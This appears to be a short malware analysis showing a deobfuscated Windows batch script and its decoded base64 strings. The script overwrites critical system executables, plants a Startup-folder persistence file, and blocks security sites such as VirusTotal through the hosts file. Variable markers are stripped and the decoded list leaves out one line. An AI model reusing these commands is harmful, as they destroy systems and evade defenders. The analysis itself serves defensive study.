 ### Analysis of deobfuscated ":yuum"
```bash
cd temp
copy /Y 0 "windir\system32\winlogon.exe"
copy /Y 0 "windir\system32\smss.exe"
copy /Y 0 "windir\system32\dwn.exe"
copy /Y 0 "windir\system32\csrss.exe"
copy /Y 0 "windir\system32\lsass.exe"
copy /Y 0 "windir\system32\wbem\WmiPrvSE.exe"
copy /Y 0 "windir\system32\svchost.exe"
copy /Y 0 "windir\system32\wininit.exe"
copy /Y 0 "windir\system32\SgrmBroker.exe"
copy /Y 0 "windir\system32\securekernel.exe
"copy /Y 0 "windir\system32\smartscreen.exe"
copy /Y 0 "APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\service.cmd"
cd windir\system32\Drivers\etc
set "string667=ZWNobyAxMjcuMC4wLjEgdmlydXN0b3RhbC5jb20+Pkhvc3Rz"
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string667"""^)^)') do
 set "decoded667=i"
cmd /c decoded667 >nul
set "string668=ZWNobyAxMjcuMC4wLjEgbWljcm9zb2Z0LmNvbT4+SG9zdHM="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string668"""^)^)') do 
set "decoded668=i"
cmd /c decoded668 >nul
set "string669=ZWNobyAxMjcuMC4wLjEgaHlicmlkLWFuYWx5c2lzLmNvbT4+SG9zdHM="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string669"""^)^)') do 
set "decoded669=i"
cmd /c decoded669 >nul
set "string670=ZWNobyAxMjcuMC4wLjEgYW5hbHl6ZS5pbnRlemVyLmNvbT4+SG9zdHM="
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string670"""^)^)') do 
set "decoded670=i"
cmd /c decoded670 >nul
set "string671=ZWNobyAxMjcuMC4wLjEgam9lc2FuZGJveC5jb20+Pkhvc3Rz"
for /f "tokens=* delims=" i in ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""string671"""^)^)') do 
set "decoded671=i"
cmd /c decoded671 >nul
timeout /t 3 >nul
goto loop
```
Decoded base64 strings:
```bash
copy /Y 0 "windir\system32\winlogon.exe"
copy /Y 0 "windir\system32\smss.exe"
copy /Y 0 "windir\system32\dwn.exe"
copy /Y 0 "windir\system32\csrss.exe"
copy /Y 0 "windir\system32\lsass.exe"
copy /Y 0 "windir\system32\wbem\WmiPrvSE.exe"
copy /Y 0 "windir\system32\svchost.exe"
copy /Y 0 "windir\system32\wininit.exe"
copy /Y 0 "windir\system32\SgrmBroker.exe"
copy /Y 0 "windir\system32\securekernel.exe
copy /Y 0 "windir\system32\smartscreen.exe"
copy /Y 0 "APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\service.cmd"
cd windir\system32\Drivers\etc
echo 127.0.0.1 virustotal.com>>Hosts
echo 127.0.0.1 microsoft.com>>Hosts
echo 127.0.0.1 hybrid-analysis.com>>Hosts
echo 127.0.0.1 analyze.intezer.com>>Hosts
```